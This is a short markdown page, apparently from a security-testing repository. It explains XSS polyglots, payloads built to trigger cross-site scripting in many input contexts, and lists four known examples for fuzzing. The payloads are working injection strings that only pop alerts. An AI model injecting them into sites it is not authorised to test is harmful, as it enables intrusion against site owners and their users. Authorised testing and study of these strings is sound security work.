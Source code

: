 # XSS Polyglots

When searching for XSS vulnerabilities, you typically need to create payloads to the specific scenario. This is fine once you've found a vulnerability, but it causes issues when fuzzing for vulnerabilities. In order to cater for a large number of scenarios, tools will typically use a long list of payloads just hoping something will stick. This creates a lot of noise and makes manual validation of vulnerabilities difficult to impossible.

Polyglots are special payloads which are designed to work in a wide variety of scenarios. By trying only a few polyglots, you can cast a wider net and catch more vulnerabilities. It also allows easier manual testing to see how an application handles a given polyglot rather than a long list of fuzzing payloads.

## Example XSS Polyglots

Polyglot Payload #1 - [Rsnake XSS Cheat Sheet](https://n0p.net/penguicon/php_app_sec/mirror/xss.html)
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Polyglot Payload #2 - Ashar Javed
```
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

Polyglot Payload #3 - Mathias Karlsson
```
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```


Polyglot Payload #4 - [Ahmed Elsobky](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
